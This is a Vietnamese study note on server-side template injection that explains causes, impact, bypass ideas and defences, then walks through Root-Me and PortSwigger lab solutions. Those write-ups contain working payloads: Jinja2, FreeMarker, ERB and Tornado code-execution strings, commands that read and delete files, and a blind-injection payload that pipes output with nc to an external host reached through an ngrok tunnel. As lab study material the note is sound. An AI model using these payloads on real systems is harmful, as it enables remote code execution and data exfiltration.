

# Task 8

Text: Task 8:
- Tìm hiểu về SSTI (Khái niệm, nguyên nhân, tác hại + 1 số cách bypass, cách phòng tránh)
- Giải hết các bài SSTI trên rootme
DEADLINE:
23h 21/9

# I. SSTI — Server-Side Template Injection

## **1. Bối cảnh**

Theo thời gian và nhu cầu, các dữ liệu hiển thị trên trang web không ngừng thay đổi. Ba yếu tố cơ bản nhất tạo nên một trang web là HTML, CSS, Javascript. Để thêm, sửa, xóa chức năng, dữ liệu, thay đổi bố cục giao diện dẫn đến lập trình viên cần chỉnh sửa toàn bộ source code - tiêu tốn tài nguyên, thời gian. Bởi vậy kỹ thuật template ra đời. Cách thức hoạt động cơ bản của ngôn ngữ template bao gồm back-end rendering và front-end rendering:

- Render trên back-end bao gồm việc dịch các ngôn ngữ template theo một tiêu chuẩn và chuyển chúng thành HTML, JavaScript hoặc CSS, từ đó trả về cho phía front-end.
- Sau đó, quá trình front-end rendering tiếp nhận, thực thi và gửi toàn bộ mã nguồn trên đến client, cho phép client tạo ra giao diện người dùng.

Xét một ví dụ:

Front-end:

```
<html>
    <head>
        <title>{{title}}</title>
    </head>
    <body>
        <form method="{{method}}" action="{{action}}">
            <input type="text" name="user" value="{{username}}">
            <input type="password" name="pass" value="">
            <button type="submit">submit</button>
        </form>
        <p>Used {{mikrotime(true) - time}}</p>
    </body>
</html>
```

back-end:

```python
$template Engine=new TempLate Engine()；
$template=$template Engine-load File('login.tpl')；
$template->assign('title'， 'login')；
$template->assign('method'， 'post')；
$template->assign('action'， 'login.php')；
$template->assign('username'， get Username From Cookie() )；
$template->assign('time'， microtime(true) )；
$template->show()
```

Đoạn mã trên tạo một đối tưởng template, load file template **login.tpl**, gán giá trị cho các biến bằng hàm **`assign()`**, cuối cùng gọi hàm **`show()`** hiển thị nội dung đã được thay thế bằng HTML trong front-end.

### Template engine là gì?

**Template engine** (bộ máy template) là một thư viện giúp *tạo nội dung văn bản* (HTML, email, cấu hình, v.v.) bằng cách **kết hợp một "mẫu" (template)** với **dữ liệu**. Template chứa chỗ giữ chỗ (placeholders) và cú pháp để chèn biến, lặp, điều kiện, format… Khi chạy, template engine *render* template bằng cách thay các placeholder bằng dữ liệu thực và xuất ra chuỗi kết quả cuối cùng.

Nói nôm: template = khung có chỗ để điền, engine là cái điền tự động theo luật.

### Tại sao dùng template engine?

- Tách **logic** (code) ra khỏi **giao diện** (HTML).
- Viết HTML/đầu ra dễ duy trì: template đọc được, dễ sửa giao diện mà không động tới code.
- Hỗ trợ lặp (for), điều kiện (if), escape, filter, kế thừa template (layout), v.v.
- Dùng rộng rãi trong web frameworks (Flask/Django/Tornado…), email generators, report generators.

### Tính năng thường thấy

- Biến: `{{ user.name }}`
- Lặp: ` ... `
- Điều kiện: ` ... `
- Filters: `{{ text|upper }}`

### Các template engine phổ biến (Python / web)

- **Jinja2** (Flask, nhiều project)
- **Django Templates** (Django)
- **Tornado Templates** (Tornado)
- **Mako**, **Chameleon**, v.v.

### Bảng dưới đây chỉ ra cái nào có thể excute code được, engine sẽ thực thi code thuộc ngôn ngữ nào nếu bị chèn,..



---

## **2. Giới thiệu lỗ hổng Server-side template injection (SSTI)**

- Server-side template injection (SSTI) là dạng lỗ hổng cho phép kẻ tấn công inject các payload (tạo bởi chính ngôn ngữ template đó) vào các template, và chúng được thực thi tại phía server. Trong đa số trường hợp xảy ra lỗ hổng SSTI đều mang lại các hậu quả to lớn cho server, bởi các payload SSTI được thực thi trực tiếp tại server và thường dẫn tới tấn công thực thi mã nguồn tùy ý từ xa (RCE - Remote Code Execution).
- Xét ví dụ quá trình gửi thư điện tử tới người nhận theo tên. Sử dụng template **Twig** render nội dung theo dữ liệu tĩnh (static) sẽ không tạo ra lỗ hổng SSTI do giá trị **`first_name`** là giá trị tĩnh.
    
    `$output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name) );`
    
    - Chuỗi template: `"Dear {{ name }}"` — cố định.
    - Parse template → AST có một node biến `name`.
    - Render: thay node `name` bằng giá trị `{{7*7}}` (chuỗi) → in nguyên văn.
- Tuy nhiên, khi input từ người dùng được trực tiếp liên kết truyền vào template sẽ có thể dẫn tới tấn công SSTI.
    
    `$output = $twig->render("Dear " . $_GET['name']);-` 
    
    - Chuỗi template: `"Dear " + "{{7*7}}"` → kết quả `"Dear {{7*7}}"`.
    - Parse template → engine phát hiện token `{{7*7}}` trong template → tạo node biểu thức.
    - Render: đánh giá biểu thức `7*7` → in `49`.
    
    Tình huống trên sử dụng giá trị tham số **`name`** lấy từ phương thức GET trực tiếp tạo thành một phần của template. Do người dùng có thể thay đổi giá trị **`$_GET['name']`** nên kẻ tấn công có thể inject các payload tùy ý, chẳng hạn:
    
    `http://vulnerable-website.com/?name={{payload}}`
    
- SSTI là một trong những lỗ hổng ở mức nâng cao, có thể xảy ra trong nhiều loại template khác nhau. Chúng ta sẽ cùng đến với một số demo trong mục tiếp theo.

### Template engine hoạt động như thế nào? (bản chất để hiểu SSTI)

Để hiểu SSTI, cần nắm lifecycle đơn giản của template engine — nhìn theo 2 giai đoạn chính:

1. **Parse / Compile (phân tích cú pháp, biên dịch template)**
    - Engine đọc *chuỗi template* (file hoặc string), tìm token như `{{ ... }}`, ``, `${...}`, v.v.
    - Tạo cấu trúc trung gian (AST / bytecode / template object) thể hiện logic: biến nào, vòng lặp, điều kiện, filter, v.v.
2. **Evaluate / Render (thực thi template với dữ liệu)**
    - Engine chạy AST, thay các variable node bằng giá trị từ *context* (những biến bạn truyền vào khi gọi render), áp escape nếu cần, và xuất ra chuỗi kết quả (HTML/text).

**Điểm mấu chốt:** nếu *nội dung do user cung cấp* tham gia ở **giai đoạn parse** (là một phần của chuỗi template), thì engine sẽ *parse* và có thể *thực thi* cú pháp do user chèn → SSTI. Nếu nội dung user chỉ nằm trong *giai đoạn render* (là giá trị biến truyền vào), engine sẽ in/escape giá trị đó chứ **không** parse lại nội dung bên trong → an toàn với SSTI.

## 3. Nguyên nhân (tại sao lỗ hổng xảy ra)

Các nguyên nhân phổ biến dẫn tới SSTI:

- **Concatenate (nối) input user vào template string**
    
    Ví dụ: `Template("Hello " + user_input)` — `user_input` trở thành một phần của template lúc parse.
    
- **Cho phép người dùng lưu/ghi template (template editor)**
    
    Nếu ứng dụng cho phép privileged user upload hoặc edit template raw (ví dụ email template), kẻ chiếm quyền tài khoản đó có thể chèn directive độc hại.
    
- **Sử dụng API render-from-string với input không tin cậy**
    
    Nhiều engine có API như `render_template_string(user_input)` hoặc `createTemplate(user_input)` — dùng trực tiếp với dữ liệu user là nguy hiểm.
    
- **Lỗi logic/thiết kế**: dev không phân biệt “template” và “data”, hoặc cố gắng làm “template builder” bằng cách ghép nhiều chuỗi (một phần trông như template, phần khác chứa input).
- **Hy vọng vào blacklist**: chặn `{` hay `{{` bằng blacklist thường dễ bị bypass; blacklist không phải giải pháp an toàn.

## 4. Tác hại (impact)

- **Rò rỉ dữ liệu**: config, biến môi trường, secrets (DB strings, API keys), file hệ thống.
- **Lộ stack trace / debug info**: lỗi parse có thể tiết lộ engine/version, giúp tấn công sâu hơn.
- **Thay đổi nội dung/HTML**: dùng để phishing, redirect, nội dung lừa đảo.
- **Privilege escalation / lateral movement**: nếu server có quyền truy cập nội bộ, attacker có thể dùng server làm cổng tấn công nội bộ.
- **RCE (worst-case)**: trong engine mạnh + unsandboxed, attacker có thể chạy lệnh hệ thống → toàn quyền trên host.
- **Persistence / pivoting**: tạo backdoor, mở kết nối outbound, tải mã độc.

## 5. Một số cách bypass (ý tưởng, ở mức khái quát)

- **Thay đổi cú pháp / delimiters**
    
    Nhiều engine có cú pháp khác nhau (`{{ }}`, `${ }`, `<% %>`, `{$ }`...). Nếu app chặn dạng `{{` bằng blacklist, attacker thử cú pháp khác.
    
- **Toán học làm PoC**: gửi biểu thức dễ kiểm tra (`7*7`) để biết có evaluate hay không. (PoC an toàn.)
- **Thử comment/escape token** đặc trưng của engine (ví dụ `{* *}` cho Smarty) để nhận diện engine.
- **Encoding / double-encoding**
    
    Encode payload (URL-encode / HTML-encode / percent-encode) hoặc mã hóa nhiều lớp để qua bộ lọc đơn giản; bộ lọc có thể decode một lần nhưng không decode hai lần.
    
- **Whitespace / comment / token tricks**
    
    Chèn khoảng trắng, comment, newline, hoặc dùng cách viết biểu thức khác để phá regex/bộ lọc sơ khai.
    
- **Context shifting (break-out)**
    
    Nếu input nằm *trong* một biểu thức/template expression, attacker cố “đóng” expression hiện tại rồi chèn phần mới (ví dụ đóng `}}` rồi thêm nội dung). Đây là cách phát hiện “code context”.
    
- **Chaining nhỏ (probe → build)**
    
    Dò (small probes) để rò rỉ 1 bit info → dùng info đó craft payload phức tạp hơn. (Ví dụ: dò xem engine là Jinja2 hay Twig rồi dùng kỹ thuật riêng cho engine đó.)
    
- **Object/attribute traversal (conceptual)**
    
    Nếu engine cho phép truy cập thuộc tính/đối tượng, attacker có thể “leo” tới object có khả năng đọc file/ gọi hàm. (Ý tưởng: tìm object global chứa config hoặc API để gọi.)
    
- **Sandbox escape (caveat)**
    
    Sandbox kém có thể bị bypass bằng chuỗi kỹ thuật dựa trên ngách của engine — sandboxing khó làm đúng.
    

## 6. Cách phòng tránh

### Thiết kế & coding (bắt buộc)

1. **KHÔNG** render template từ chuỗi do user cung cấp. (Không dùng `render_template_string(user_input)` / `createTemplate(user_input)` với dữ liệu client.)
2. **KHÔNG** concat user input vào template string. Luôn dùng template cố định + truyền *data* qua context/variables.
3. Nếu cần template do user “tùy biến” → **không** cho phép biểu thức/logic; chỉ cho phép **placeholder-only** (ví dụ `[[NAME]]`) và xử lý bằng string-replace an toàn.

### Cấu hình template engine

1. **Whitelist variables**: khi gọi render chỉ expose những biến cần thiết (ví dụ `{ 'name': name }`), không expose object global.
2. **Xoá / hạn chế globals**: loại bỏ `os`, `sys`, `config`, `inspect`, `__builtins__` khỏi environment template.
3. **Bật autoescape** cho HTML output (ngăn XSS).
4. **Dùng sandbox** (ví dụ `jinja2.sandbox.SandboxedEnvironment`) nếu vẫn phải render template động — *và* hiểu sandbox không hoàn hảo.
5. **Giới hạn filter/helper**: không cho user gọi helper có thể thực thi lệnh hoặc đọc file.

### Triển khai & runtime

1. **Least privilege**: process web không chạy với quyền root; files sensitive có permission chặt chẽ.
2. **Isolate risky rendering**: nếu render content từ nguồn không tin cậy, thực hiện trong container/VM với network/FS hạn chế.
3. **Egress control**: chặn outbound network từ process ứng dụng nếu không cần.

### DevOps / QA

1. **Code review / SAST**: detect patterns nguy hiểm (`render_template_string`, `createTemplate`, `.render(user_input)`...).
2. **Unit tests**: test case cho các entry points rendering đảm bảo input có escape/không được parse.
3. **Logging & alerting**: log requests chứa `{{`, `${`, `<%` và cảnh báo hình như có probing.
4. **Patch** engine & libs thường xuyên.

# II. Lab trên rootme

## **1. Python - Server-side Template Injection Introduction**

- Trang web cho phép tạo ra một web page đơn giản


- Tìm được chỗ injection là trường content


- Đề bài đã cho ta biết tamplate engine là Jinja2
- Tham khảo được payload `self._TemplateReference__context.joiner.**init**.**globals**.os.popen('id').read()`
- Khi template được chạy, engine tạo ra một *đối tượng* (gọi tắt là `TemplateReference`) chứa dữ liệu và các hàm nội bộ. `self` là con trỏ tới đối tượng đó. Chuỗi trên **"đi bộ"** qua các thuộc tính nội bộ của đối tượng để tới **bảng biến toàn cục** (`__globals__`) của một hàm nội bộ, và từ bảng biến đó lấy module `os`. Khi có `os` thì có thể gọi `popen(...)` để chạy lệnh và `.read()` để lấy kết quả.
    - **`self`**: là đối tượng template đang được render (giống như “chủ nhà” trong ngôi nhà template).
    - **`_TemplateReference__context`**: một thuộc tính *riêng* của đối tượng đó (hộp chứa dữ liệu dùng để render: biến, helper, v.v.). Python đổi tên `__context` thành `_TemplateReference__context` (gọi là name-mangling).
    - **`joiner`**: là một thuộc tính bên trong `context` (thường là hàm hoặc đối tượng nội bộ dùng để nối các phần chuỗi khi engine ghép output).
    - **`__init__`**: nếu `joiner` là class thì `joiner.__init__` là function khởi tạo của class — một **function object** trong Python.
    - **`__globals__`**: mọi function object trong Python đều có `__globals__` — là một dict chứa các biến toàn cục (những tên được import/định nghĩa trong module nơi function đó được viết).
    - **`.os`** (hoặc `['os']`): lấy module `os` từ dict `__globals__` nếu module đó có trong globals (engine có import `os` trong phạm vi đó).
    - **`os.popen('id')`**: gọi os.popen để chạy lệnh shell `id` và trả về một stream (file-like) chứa output.
    - **`.read()`**: đọc toàn bộ nội dung stream để trả về chuỗi output của lệnh.


- Trả về được lệnh `id`
- Sử dụng lệnh `ls -a` để liệt kê các file có trong hệ thống ( `-a` để liệt kê cả file ẩn có trong hệ thống và bắt đầu bằng `._`)


- Tìm được file `passwd`
- content=`{{self._TemplateReference__context.joiner.**init**.**globals**.os.popen('cat .passwd').read()}}`


- Tham khảo giải thích payload tại đây [https://hackmd.io/@ancorn/HyW1zz10n](https://hackmd.io/@ancorn/HyW1zz10n)

## **2. Java - Server-side Template Injection**

- Đề bài đã nói nó sử dụng ngôn ngữ java, mà java thì có những template engine như Velocity, WebMaccros, Freemarker
- Các thành phần cơ bản của FreeMarker
    - `${...}` — in (evaluate) một biểu thức và chèn kết quả vào output. Ví dụ `${7*7}` → `49`.
    - `<#assign name = value>` — gán biến trong template (tương tự `let`/`var`).
    - `?` (built-ins) — toán tử built-in của FreeMarker, ví dụ `"abc"?upper_case` → `"ABC"`.
    - Một template có thể gọi phương thức trên object Java nếu object đó được đưa vào context (hoặc tự tạo qua reflection nếu engine cho phép).

Payload:

```
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("cat SECRET_FLAG.txt") }
```

Phân tích:

1. `"freemarker.template.utility.Execute"` — đây là **tên đầy đủ (full class name)** của một lớp tiện ích trong thư viện FreeMarker. Lớp này cung cấp khả năng thực thi lệnh hệ thống (shell).
2. `?new()` — là một *built-in* của FreeMarker cho phép **khởi tạo (instantiate)** một lớp bằng chuỗi tên lớp. Nói nôm na: FreeMarker có thể chuyển chuỗi tên lớp thành `new ClassName()` nếu môi trường cho phép.
3. `<#assign ex = "..."?new()>` — gán biến `ex` thành một đối tượng mới của lớp `freemarker.template.utility.Execute`.
4. `${ ex("cat SECRET_FLAG.txt") }` — gọi đối tượng `ex` như một hàm với chuỗi `"cat SECRET_FLAG.txt"`; `Execute` sẽ chạy lệnh shell `cat SECRET_FLAG.txt` và trả output — FreeMarker sẽ in output đó vào trang.


tìm được flag trong file SECRET_FLAG.txt

## **3. Python - Blind SSTI Filters Bypass**

- Bài này có cho source code
    
    [server_ch73.py](server_ch73.py)
    


- hàm sanitize này đã xóa toàn bộ các ký tự có trong blacklist và đệ quy nó lại nhiều lần nếu như sau khi xóa vẫn còn ký tự trong blacklist, điều này khiến chúng ta khó bypass
- User gửi 4 field → server *render lần 1* (chèn các field vào template email) → phần filename trong template nối các field lại tạo ra `{{...}}` hoặc `` → `sendmail()` nối `{{ signature }}` rồi render lần 2 trên chuỗi đã tạo → Jinja thực thi expression đã chèn → ta sẽ *exfiltrate* kết quả bằng cách cho lệnh shell mở kết nối ra máy attacker (ví dụ `| nc attacker:port`)

1. Template email có chỗ nối các field thành tên file

- Trong biến `mail` có dòng

```python
- '{{ hacker_name }}{{ hacker_surname }}{{ hacker_email }}{{ hacker_bday }}.csv'
```

nghĩa là khi template được render, các giá trị 4 field sẽ được ghép liền nhau thành một tên file trong body.

- Server render lần 1 khi user POST
    - Khi user submit, server gọi:
    
    ```python
    register_mail = jinja2.Template(mail).render(
    	hacker_name=sanitize(request.form["name"]),
    	hacker_surname=sanitize(request.form["surname"]),
    	hacker_email=sanitize(request.form["email"]),
      hacker_bday=sanitize(request.form["bday"])
    )
    ```
    
    (đây là lần render đầu tiên — Jinja thay các `{{ hacker_* }}` bằng giá trị sanitized).
    
- Vậy ra sẽ nhập name=`{` , surname=`{7*7}` , email=`}` , bday=`hi`
- Vì hàm sanitize chỉ xóa ở từng field nên payload của ta sẽ không nằm trong blacklist
- Khi render lần 1 ta sẽ được `{{7*7}}hi.csv`

2. Hàm sendmail() làm render lần 2 trên nội dung đã tạo

- `sendmail` nối `"\n\n{{ signature }}"` vào `content` rồi lại gọi `jinja2.Template(content).render(signature=_signature)` — tức là nạp content vừa tạo thành template mới và render nó. Bất kỳ biểu thức Jinja nào hiện còn nguyên trong `content` sẽ được thực thi lúc này.
- Tức chuỗi của ta sẽ được render thành `49hi.csv`
- Vì bài này đã filter một số payload này


nên tôi sẽ chọn payload là

`{{ lipsum.__globals__.os.popen('id').read() }}`

1. Vấn đề tiếp theo là bài này không trả kết quả về trình duyệt hay về đâu cả 
- Dùng `nc` để gửi stdout từ server về máy mình : ví dụ `... | nc <your_public_host> <port>`. Để public host dùng ngrok tcp endpoint hoặc dịch vụ tương tự.
- Bước đầu là mở một cổng TCP trên máy mình để lắng nghe các kết nối bằng công cụ mạng rất đa năng là Netcat(có thể lắng nghe, kết nối, chuyển dữ liệu, tạo reverse shell, v.v.)
    
    `nc -nlvp 80`
    
- Bước tiếp theo là sử  ngrok để mở một “đường hầm TCP” (TCP tunnel) từ Internet vào máy local, để máy của victim có thể netcat( kết nối) tới máy local của mình
    
    `ngrok tcp 80`
    
    
    
- `0.tcp.ap.ngrok.io 18936` chính là domain và cổng mà máy khác có thể kết nối vào máy mình bằng nc
- Ta có thể `nslookup 0.tcp.ap.ngrok.io` để tra xem địa chỉ ip của domain này là gì, giúp giảm bớt đi số ký tự payload vì các trường giới hạn các ký tự


→ ip là `13.228.171.119`

- Payload cần nhập lên là `{{lipsum.__globals__.os.popen('ls | nc 13.228.171.119 13744').read()}}`
- Ta cần chia ra nhập vào các trường như sau
    
    name=`hi{`&surname=`{lipsum.__globals__.os.popen('ls | nc 13.2` &email=`28.171.119 13744').read()}`&bday=`}hi`
    
    
    

→ Tìm được các folder này

- Tôi sẽ sử dụng luôn lệnh `find` để tìm flag
    
    
    


- Tìm được luôn file flag.txt này, khả năng cao là flag nằm trong này. Nhưng vấn đề là đường dẫn để vào file này là quá dài
- Tôi sẽ sử dụng lệnh `cat $(find -name f*)`


→ Thấy luôn flag

# III. Lab trên portswigger

## **1. Lab: Basic server-side template injection**

<aside>
💡

This lab is vulnerable to server-side template injection due to the unsafe construction of an ERB template.

To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

</aside>

- Lab đã cho biết template engine là ERB của Ruby
    
    Hai cú pháp ERB quan trọng:
    
    - `<% ... %>` — **thực thi** Ruby code bên trong nhưng **không in** kết quả ra trang.
    - `<%= ... %>` — **thực thi** Ruby expression và **in kết quả** (gán giá trị trả về) vào chỗ đó trong HTML/output.
- Ta thấy khi ấn xem sản phẩm đầu tiên thì trang trả về `Unfortunately this product is out of stock` , và dòng đó được lấy từ tham số `message` trên url


- Thử `<%=7*7%>` để xem server có đánh giá biểu thức đó không
- Payload để xóa file ?message=`<%= system("rm /home/carlos/morale.txt") %>`
    - `system` là một hàm của Ruby cho phép chạy lệnh shell. Khi ERB gặp `<%= system("...") %>` nó sẽ gọi Ruby để thực thi biểu thức `system(...)` — do đó câu lệnh shell được thực thi với quyền của process web.
    - Vì ERB chạy server-side (không client), câu lệnh thực thi trên máy chủ (lab VM), không trên máy tính của bạn.

## **2. Lab: Basic server-side template injection (code context)**

<aside>
💡

This lab is vulnerable to server-side template injection due to the way it unsafely uses a Tornado template. To solve the lab, review the Tornado documentation to discover how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

You can log in to your own account using the following credentials: `wiener:peter`

</aside>

- Ứng dụng dùng Tornado templates và chèn trực tiếp *nội dung do người dùng cung cấp* vào template mà không escape — tức server đánh giá (render) nội dung đó như một template.

### Cú pháp Tornado quan trọng

- `{{ expression }}` — biểu thức template: đánh giá và xuất kết quả (ví dụ `{{ 7*7 }}` → `49`).
- `` — khối lệnh/template statement (dùng cho import, for, if, v.v.). Ví dụ ``.
- Sau khi đăng nhập bằng tài khoản đã cấp thì nó hiện ra tính năng lựa chọn tên tác giả để hiển thị sau khi post một comment trên blog.


- Sau khi Submit `Preferred name` thì kiểm tra trong phần HTTP history trên burp


- Thay đổi thành blog-post-author-display=`user.name}}{{7*7}}`
    - `user.name}}` để phá template cũ
    - khi đó template gửi lên server thực sự sẽ trở thành `{{user.name}} {{7*7}} }}`
- Sau khi post một comment thì tên tác giả sẽ trở thành


- Tức là template đã đánh giá {{7*7}} thành 49
- Để thực thi Python, dùng `` để import và `{{ ... }}` để gọi hàm:
    - Cú pháp Tornado: `` để import OS
    - Sau đó gọi `os.system('rm /home/carlos/morale.txt')`
- Payload đầy đủ blog-post-author-display=`user.name}}{{os.system('rm /home/carlos/morale.txt')}}`